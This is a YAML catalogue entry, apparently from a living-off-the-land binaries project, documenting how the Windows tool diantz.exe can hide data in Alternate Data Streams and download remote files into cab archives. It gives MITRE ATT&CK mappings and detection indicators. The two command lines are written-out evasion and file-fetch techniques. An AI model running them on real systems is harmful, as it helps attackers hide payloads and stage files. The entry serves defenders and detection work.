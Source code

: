 ```yaml
---
Name: Diantz.exe
Description: Binary that package existing files into a cabinet (.cab) file
Author: 'Tamir Yehuda'
Created: '08/08/2020'
Commands:
  - Command: diantz.exe c:\pathToFile\file.exe c:\destinationFolder\targetFile.txt:targetFile.cab
    Description: Compress taget file into a cab file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an Alternate Data Stream. 
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows Server 2012, Windows Server 2012R2, Windows Server 2016, Windows Server 2019
  - Command: diantz.exe \\remotemachine\pathToFile\file.exe c:\destinationFolder\file.cab
    Description: Download and compress a remote file and store it in a cab file on local machine.
    Usecase: Download and compress into a cab file. 
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows XP, Windows vista, Windows 7, Windows 8, Windows 8.1.
Full_Path:
  - Path: c:\windows\system32\diantz.exe
  - Path: c:\windows\syswow64\diantz.exe
Code_Sample: 
  - Code: 
Detection: 
  - IOC: diantz storing data into alternate data streams.
  - IOC: diantz getting a file from a remote machine or the internet.
Resources:
  - Link: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diantz
Acknowledgement:
  - Person: Tamir Yehuda
    Handle: '@tim8288'
  - Person: Hai Vaknin
    Handle: '@vakninhai'
---
```

